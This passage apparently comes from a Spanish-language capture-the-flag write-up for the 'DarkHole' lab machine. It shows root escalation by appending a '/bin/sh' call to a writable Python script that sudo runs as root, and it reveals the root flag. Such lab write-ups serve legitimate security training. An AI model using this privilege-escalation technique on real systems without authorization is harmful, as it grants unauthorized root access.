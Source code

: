 Ahora resta hacernos root.

Listamos los permisos del usuario sobre el sistema con `sudo -l` y tenemos permiso como root sobre un archivo python.

```bash
john@darkhole:~$ sudo -l
Matching Defaults entries for john on darkhole:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on darkhole:
    (root) /usr/bin/python3 /home/john/file.py
```

Comprobamos el contenido del archivo y no tiene nada. Listamos los permisos y podemos alterarlo, con lo cual, procedemos a agregarle código para obtener una shell cuando se ejecute el script con permiso de root.

```bash
john@darkhole:~$ ls -la
total 72
drwxrwxrwx 5 john john      4096 Jul 17  2021 .
drwxr-xr-x 4 root root      4096 Jul 16  2021 ..
-rw------- 1 john john      1751 Feb  6 19:13 .bash_history
-rw-r--r-- 1 john john       220 Jul 16  2021 .bash_logout
-rw-r--r-- 1 john john      3771 Jul 16  2021 .bashrc
drwx------ 2 john john      4096 Jul 17  2021 .cache
drwxrwxr-x 3 john john      4096 Jul 17  2021 .local
-rw------- 1 john john        37 Jul 17  2021 .mysql_history
-rw-r--r-- 1 john john       807 Jul 16  2021 .profile
drwxrwx--- 2 john www-data  4096 Feb  6 17:46 .ssh
-rwxrwx--- 1 john john         1 Jul 17  2021 file.py
-rwxrwx--- 1 john john         8 Jul 17  2021 password
-rwsr-xr-x 1 root root     16784 Jul 17  2021 toto
-rw-rw---- 1 john john        24 Jul 17  2021 user.txt
john@darkhole:~$ cat file.py
john@darkhole:~$
```

Listamos la Flag de root.

```bash
john@darkhole:~$ echo "import os; os.system('/bin/sh')" >> file.py
john@darkhole:~$ cat file.py
import os; os.system('/bin/sh')
john@darkhole:~$ sudo /usr/bin/python3 /home/john/file.py
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt  snap
# cat root.txt
DarkHole{You_Are_Legend}
```

Hope it helps!